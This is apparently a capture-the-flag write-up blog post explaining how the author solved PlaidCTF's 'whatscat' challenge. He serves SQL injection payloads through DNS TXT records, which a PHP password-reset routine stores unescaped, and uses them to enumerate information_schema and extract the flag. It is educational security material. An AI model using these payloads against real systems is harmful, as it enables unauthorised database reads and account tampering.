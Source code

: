 ```yaml
---
id: 1856
title: PlaidCTF writeup for Web-300 &#8211; whatscat (SQL Injection via DNS)
date: '2014-04-16T12:29:31-05:00'
author: ron
layout: post
guid: https://blog.skullsecurity.org/?p=1856
permalink: "/2014/plaidctf-writeup-for-web-300-whatscat-sql-injection-via-dns"
categories:
- dns
- hacking
- plaidctf-2014
- tools
comments_id: '109638365955006003'

---
```


Hey folks,

This is my writeup for Whatscat, just about the easiest 300-point Web level I've ever solved! I wouldn't normally do a writeup about a level like this, but much like <a href='/2014/plaidctf-web-150-mtpox-hash-extension-attack'>the mtpox</a> level I actually wrote the exact tool for exploiting this, and even wrote a <a href='/2010/stuffing-javascript-into-dns-names'>blog post about it</a> almost exactly 4 years ago - April of 2010. Unlike mtpox, this tool isn't the least bit popular, but it sure made my life easy!
<!--more-->
<h2>The set up</h2>

Whatscat is a php application where people can post photos of cats and comment on them (<a href='/blogdata/whatscat.tar.bz2'>Here's a copy of the source</a>).

The vulnerable code is in the password-reset code, in login.php, which looks like this:

<pre>
  <span class="Statement">elseif</span> <span class="Special">(</span><span class="Statement">isset</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_POST</span><span class="Special">[</span>&quot;<span class="Constant">reset</span>&quot;<span class="Special">]))</span> <span class="Special">{</span>
    <span class="Statement">$</span><span class="Identifier">q</span> <span class="Statement">=</span> <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">select username,email,id from users where username='%s'</span>&quot;,
      <span class="Identifier">mysql_real_escape_string</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_POST</span><span class="Special">[</span>&quot;<span class="Constant">name</span>&quot;<span class="Special">])))</span>;
    <span class="Statement">$</span><span class="Identifier">res</span> <span class="Statement">=</span> <span class="Identifier">mysql_fetch_object</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">q</span><span class="Special">)</span>;
    <span class="Statement">$</span><span class="Identifier">pwnew</span> <span class="Statement">=</span> &quot;<span class="Constant">cat</span>&quot;<span class="Statement">.</span><span class="Identifier">bin2hex</span><span class="Special">(</span>openssl_random_pseudo_bytes<span class="Special">(</span><span class="Constant">8</span><span class="Special">))</span>;
    <span class="Statement">if</span> <span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Special">)</span> <span class="Special">{</span>
      <span class="PreProc">echo</span> <span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">&lt;p&gt;Don't worry %s, we're emailing you a new password at %s&lt;/p&gt;</span>&quot;,
        <span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email<span class="Special">)</span>;
      <span class="PreProc">echo</span> <span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">&lt;p&gt;If you are not %s, we'll tell them something fishy is going on!&lt;/p&gt;</span>&quot;,
        <span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">)</span>;
<span class="Statement">$</span><span class="Identifier">message</span> <span class="Statement">=</span> <span class="Statement">&lt;&lt;&lt;</span><span class="Special">CAT</span>
Hello. Either you or someone pretending to be you attempted to reset your password.
Anyway, we set your new password to <span class="Statement">$</span><span class="Identifier">pwnew</span>

If it wasn't you who changed your password, we have logged their IP information as follows:
<span class="Special">CAT</span>;
      <span class="Statement">$</span><span class="Identifier">details</span> <span class="Statement">=</span> <span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">])</span><span class="Statement">.</span>
        <span class="Identifier">print_r</span><span class="Special">(</span><span class="Identifier">dns_get_record</span><span class="Special">(</span><span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">]))</span>,<span class="Constant">true</span><span class="Special">)</span>;
      <span class="Identifier">mail</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email,&quot;<span class="Constant">whatscat password reset</span>&quot;,<span class="Statement">$</span><span class="Identifier">message</span><span class="Statement">.</span><span class="Statement">$</span><span class="Identifier">details</span>,&quot;<span class="Constant">From: whatscat@whatscat.cat</span><span class="Special">\r\n</span>&quot;<span class="Special">)</span>;
      <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">update users set password='%s', resetinfo='%s' where username='%s'</span>&quot;,
              <span class="Statement">$</span><span class="Identifier">pwnew</span>,<span class="Statement">$</span><span class="Identifier">details</span>,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">))</span>;
    <span class="Special">}</span>
    <span class="Statement">else</span> <span class="Special">{</span>
      <span class="PreProc">echo</span> &quot;<span class="Constant">Hmm we don't seem to have anyone signed up by that name</span>&quot;;
    <span class="Special">}</span>
</pre>

Specifically, these lines:

<pre>
      <span class="Statement">$</span><span class="Identifier">details</span> <span class="Statement">=</span> <span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">])</span><span class="Statement">.</span>
        <span class="Identifier">print_r</span><span class="Special">(</span><span class="Identifier">dns_get_record</span><span class="Special">(</span><span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">]))</span>,<span class="Constant">true</span><span class="Special">)</span>;
      <span class="Identifier">mail</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email,&quot;<span class="Constant">whatscat password reset</span>&quot;,<span class="Statement">$</span><span class="Identifier">message</span><span class="Statement">.</span><span class="Statement">$</span><span class="Identifier">details</span>,&quot;<span class="Constant">From: whatscat@whatscat.cat</span><span class="Special">\r\n</span>&quot;<span class="Special">)</span>;
      <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">update users set password='%s', resetinfo='%s' where username='%s'</span>&quot;,
              <span class="Statement">$</span><span class="Identifier">pwnew</span>,<span class="Statement">$</span><span class="Identifier">details</span>,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">))</span>;
</pre>

The $details variable is being inserted into the database unescaped. I've noted in the past that people trust DNS results just a bit too much, and this is a great example of that mistake! If we can inject SQL code into a DNS request, we're set!

...this is where I wasted a lot of time, because I didn't notice that the print_r() is actually part of the same statement as the line before it - I thought only the reverse DNS entry was being put into the database. As such, my friend <a href='https://twitter.com/mak_kolybabi'>Mak</a>&mdash;who was working on this level first&mdash;tried to find a way to change the PTR record, and broke all kinds of <a href='http://www.skullspace.ca'>SkullSpace</a> infrastructure as a result.

I ended up trying to log in as 'admin'/'password', and, of course, failed. On a hunch, I hit 'forgot password' for admin. That sent me to a <a href='http://mailinator.com/'>Mailinator</a>-like service. I logged into the mailbox, and noticed somebody trying to sql inject using TXT records. This wasn't an actual admin&mdash;like I thought it was&mdash;it was another player who just gave me a huge hint (hooray for disposable mail services!). Good fortune!

Knowing that a TXT record would work, it actually came in handy that Mak controls the PTR records for all SkullSpace ip addresses. He could do something useful instead of breaking stuff! The server I use for blogs (/me waves) and such is on the SkullSpace network, so I got him to set the PTR record to test.skullseclabs.org. In fact, if you do a reverse lookup for '206.220.196.59' right now, you'll still see that:

<pre>
$ host blog.skullsecurity.org
blog.skullsecurity.org is an alias for skullsecurity.org.
skullsecurity.org has address 206.220.196.59
$ host 206.220.196.59
59.196.220.206.in-addr.arpa domain name pointer test.skullseclabs.org.
</pre>

I control the authoritative server for test.skullseclabs.org&mdash;that's why it exists&mdash;so I can make it say anything I want for any record. It's great fun! Though arguably overkill for this level, at least I didn't have to flip to my registrar's page every time I wanted to change a record; instead, I can do it quickly using a tool I wrote called <a href='https://github.com/iagox86/nbtool'>dnsxss</a>. Here's an example:

<pre>
$ sudo ./dnsxss <span class="Special">--payload=</span><span class="Statement">&quot;</span><span class="Constant">Hello yes this is test</span><span class="Statement">&quot;</span>
Listening <span class="Statement">for </span>requests on 0.0.0.0:<span class="Constant">53</span>
Will response to queries with: Hello/yes/this/is/<span class="Statement">test</span>

$ dig <span class="Statement">-t</span> txt test123.skullseclabs.org
<span class="Statement">[</span>...<span class="Statement">]</span>
<span class="Statement">;;</span> ANSWER SECTION:
test123.skullseclabs.org. <span class="Constant">1</span>     IN      TXT     <span class="Statement">&quot;</span><span class="Constant">Hello yes this is test.test123.skullseclabs.org</span><span class="Statement">&quot;</span>
</pre>

All I had to do was find the right payload!

<h2>The exploit</h2>

I'm not a fan of working blind, so I made my own version of this service locally, and turned on SQL errors. Then I got to work constructing an exploit! It was an UPDATE statement, so I couldn't directly exploit this - I could only read indirectly by altering my email address (as you'll see). I also couldn't figure out how to properly terminate the sql string (neither '#' nor '-- ' nor ';' properly terminated due to brackets). In the end, my payload would:

<ul>
  <li>Tack on an extra clause to the UPDATE that would set the 'email' field to another value</li>
  <li>Read properly right to the end, which means ending the query with "resetinfo='", so the "resetinfo" field gets set to all the remaining crap</li>
</ul>

So, let's give this a shot!

<pre>./dnsxss --payload="test', email='test1234', resetinfo='"</pre>

Then I create an account, reset the password from my ip address, and refresh. The full query&mdash;dumped from my test server&mdash;looks like:

<pre><span class="Statement">update</span> users <span class="Statement">set</span> password=<span class="Constant">'catf7a252e008616c94'</span>, resetinfo=<span class="Constant">'test.skullseclabs.orgArray ( [0] =&gt; Array ( [host] =&gt; test.skullseclabs.org [class] =&gt; IN [ttl] =&gt; 1 [type] =&gt; TXT [txt] =&gt; test'</span>, email=<span class="Constant">'test1234'</span>, resetinfo=<span class="Constant">'.test.skullseclabs.org [entries] =&gt; Array ( [0] =&gt; test'</span>, email=<span class="Constant">'test1234'</span>, resetinfo=<span class="Constant">' ) ) ) '</span> <span class="Special">where</span> username=<span class="Constant">'ron'</span></pre>


As you can see, that's quite a mess (note that the injected stuff appears twice.. super annoying). After that runs, the reset-password page looks like:

<pre>
Don't worry ron, we're emailing you a new password at <strong>test1234</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

Sweet! I successfully changed my password!

But... what am I looking for?

MySQL has this super handy database called information_schema, which contains tables called 'SCHEMATA', 'TABLES', and 'COLUMNS', and it's usually available for anybody to inspect. Let's dump SCHEMATA.SCHEMA_NAME from everything:

<pre>./dnsxss --payload="test', email=(select group_concat(SCHEMA_NAME separator ', ') from information_schema.SCHEMATA), resetinfo='"</pre>

Then refresh a couple times to find:

<pre>
Don't worry ron, we're emailing you a new password at <strong>information_schema, mysql, performance_schema, whatscat</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

Great! Three of those are built-in databases, but 'whatscat' looks interesting. Now let's get table names from whatscat:

<pre>./dnsxss --payload="test', email=(select group_concat(TABLE_NAME separator ', ') from information_schema.TABLES where TABLE_SCHEMA='whatscat'), resetinfo='"</pre>

Leads to:

<pre>
Don't worry ron, we're emailing you a new password at <strong>comments, flag, pictures, users</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

flag! Sweet! That's a pretty awesome looking table! Now we're one simple step away... what columns does 'flag' contain?

<pre>./dnsxss --payload="test', email=(select group_concat(COLUMN_NAME separator ', ') from information_schema.COLUMNS where TABLE_NAME='flag'), resetinfo='"</pre>

Leads to:

<pre>
Don't worry ron, we're emailing you a new password at <strong>flag</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

All right, we know the flag is in whatscat.flag.flag, so we write one final query:

<pre>./dnsxss --payload="test', email=(select group_concat(flag separator ', ') from whatscat.flag), resetinfo='"</pre>

Which gives us:

<pre>
Don't worry ron, we're emailing you a new password at <strong>20billion_d0llar_1d3a</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

And now we dance.

<h2>Conclusion</h2>

If you're interested in DNS attacks&mdash;this scenario and a whole bunch of others&mdash;come see my talk at <a href='http://www.bsidesquebec.org/'>BSidesQuebec</a> this June!!!
